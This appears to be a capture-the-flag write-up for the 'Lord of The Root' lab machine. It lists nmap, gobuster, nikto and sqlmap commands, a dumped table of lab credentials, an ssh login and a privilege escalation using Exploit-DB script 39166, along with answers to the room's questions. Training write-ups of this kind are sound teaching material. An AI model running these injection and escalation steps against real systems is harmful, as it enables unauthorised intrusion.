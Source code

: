 # Lord of The Root
(IP address changes because I had to restart the box multiple times through out the day)
____

# My IP = 10.8.19.163

# Export IP = 10.10.209.228
____

# NMAP 

> nmap -f -Pn -n -vv -T4 -A 10.10.209.228 | tee lord-root.nmap

> cat lord-root.nmap | grep 'open'

Results:

> 22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
> 1337/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
---	

1. What open ports do you see?

> 22 & 1337

2. What method is used to reveal hidden ports?

> port knocking (Didn't use this method had to do alot of google surfing to find this answer.)

3. What port is the hidden service on?

> 1337 Discovered by using a "-f" on the nmap scan. 

# Gobuster

> gobuster dir -u http://10.10.123.133:1337 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee bustrd.txt

Results:

	/images (Status: 301)
	/server-status (Status: 403)

# Custom Error 404 page

> "View Page Source"

> Tried to find a upload path to get a reverse shell into the system. I discovered in a "upload". There was a base64 encoded message. Decoded the message to contain "Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!" Checking to see if its a hash. Could be ssh key.

> Redid a base64 decode. Results:

> /978345210/index --> NEW DIRECTORY!

URL directory:

> http://10.10.123.133:1337/978345210/index.php

# Nikto

> nikto -h 10.10.123.133:1337 | tee nikto-lord.txt

Results:

#SQLMAP

> sqlmap -o -u "http://10.10.123.133:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 -D MySql - T Users

Results:

| id   | username | password         |
+------+----------+------------------+
| 1    | frodo    | iwilltakethering |
| 2    | smeagol  | MyPreciousR00t   | --- Use to obtain a ssh shell/
| 3    | aragorn  | AndMySword       |
| 4    | legolas  | AndMyBow         |
| 5    | gimli    | AndMyAxe         |

# SSH

> ssh smeagol@10.10.23.193 password: MyPreciousR00t

# ExploitDB

> Copied script for exploit# 39166 into a ".c" file and compiled it in the target and ran it for root.

4. Whats the method to exploit the system for privilege escalation called?

> buffer overflow

5. Who wrote the message in the flag message in the roots home directory?

> Gandalf


